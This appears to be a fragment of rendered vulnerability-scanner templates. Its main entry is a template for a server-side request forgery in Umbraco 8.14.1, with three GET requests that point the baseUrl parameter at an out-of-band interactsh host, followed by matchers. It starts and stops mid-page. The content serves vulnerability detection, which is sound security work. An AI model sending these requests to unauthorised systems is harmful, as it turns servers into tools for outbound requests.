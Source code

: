 **Type - status**

- status
  1. 400

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Umbraco 8.14.1 - baseUrl Server-Side Request Forgery (SSRF)

## Description

- Umbraco 8.1.4.1 allows attackers to use the baseUrl parameter to several programs to perform a server-side request forgery (SSRF) attack.
- severity - medium
- tags - oast,edb,ssrf,umbraco

## Requests

- Method - GET

### URL

- {{BaseURL}}/umbraco/BackOffice/Api/Help/GetContextHelpForPage?section=content&tree=undefined&baseUrl=http://{{interactsh-url}}
- {{BaseURL}}/umbraco/backoffice/UmbracoApi/Dashboard/GetRemoteDashboardContent?section=TryToAvoidGetCacheItem111&baseUrl=http://{{interactsh-url}}/
- {{BaseURL}}/umbraco/backoffice/UmbracoApi/Dashboard/GetRemoteDashboardCss?section=AvoidGetCacheItem&baseUrl=http://{{interactsh-url}}/

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - dsl**

- dsl
  1. len(body_1)==0
  2. len(body_2)==0
  3. len(body_3)==0

---

# WSO2 \<5.8.0 - Server Side Request Forgery
